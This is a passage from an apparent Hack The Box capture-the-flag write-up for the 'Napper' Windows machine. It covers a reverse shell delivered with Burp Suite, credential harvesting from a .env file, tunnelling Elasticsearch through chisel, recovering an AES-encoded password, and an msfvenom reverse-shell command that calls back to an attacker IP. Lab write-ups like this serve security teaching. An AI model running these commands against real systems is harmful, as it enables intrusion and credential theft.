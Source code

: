 ```markdown

present.cs(69,34): warning CS0168: The variable `err' is declared but never used
Compilation succeeded - 1 warning(s)
```
Encode base64 the resulting binary.
```markdown
> base64 -w 0 ./Present.exe
```
Send the payload with burpsuite, don't forget to URL-encode to avoid problematic characters.

![napper4](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/1980268c-79fe-44aa-a94e-cba7f1d47d57)

A reverse shell for user ruben is received.
### PHASE 3. System
Enumerate the system info.
```markdown
> systeminfo
Host Name:                 NAPPER
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19045 N/A Build 19045
System Type:               x64-based PC
```
Enumerating with `winpeas.exe`, a binary is discovered in a folder for which we have write access.
```markdown
> C:\Temp\www\internal\content\posts\internal-laps-alpha\a.exe
```
In this folder there is also a `.env` file containing credentials.
```markdown
> C:\Temp\www\internal\content\posts\internal-laps-alpha>type .env
ELASTICUSER=user
ELASTICPASS=DumpPassword\$Here
ELASTICURI=https://127.0.0.1:9200
```
We also find a local service running on port 9200, doing some research, we find out this port is owned by elasticsearch. Place a chisel and forward port 9200 to kali.
```markdown
./chisel64 server -p 8000 --reverse
chisel64.exe client 10.10.14.20:8000 R:9200
```
Browsing the site locally with firefox `https://localhost:9200`, an elasticsearch login website appears.
Next step is to decompile the `a.exe` file with a reversing tool. The file turns out to have been written in golang.
Conclusions after inspecting the source code:
1. If you use ghidra, look for a golang extension to assist in decompile process.
2. The binary reads environamental variables from the `.env` file. 
3. In the source you can find credentials for `elastic` user.
4. The binary updates password for user `backup`, which is written in a json field called `blob`

![napper5](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/b5dc1e65-ab60-4883-9cae-019afdf52890)

Use the `elastic` user ceredentials to log into the elasticsearch site. Query the https://localhost:9200/_search endpoint to find the `blob` parameter, which contains the encoded current password for user `backup` and the `seed` used to AES encode it.
Once both parameters are retrieved, we can decode the `backup` user password. For this, it is needed to create our own go script, one good starting point can be found here: https://gist.github.com/fracasula/38aa1a4e7481f9cedfa78a0cdd5f1865
Also, bear in mind that password for user `backup` is updated periodically. Once the password is obtained, we just need to log in as user `backup`. There are no open ports 135, 445, 3389, 5985, so `impacket`, `rdesktop` and `evil-winrm` are discarded. A good alternative could be `runascs` with a `shell.exe` payload generated with `msfvenom`
```markdown
> msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.20 lport=9000 -f exe -a x64 --platform windows -o shell.exe  
```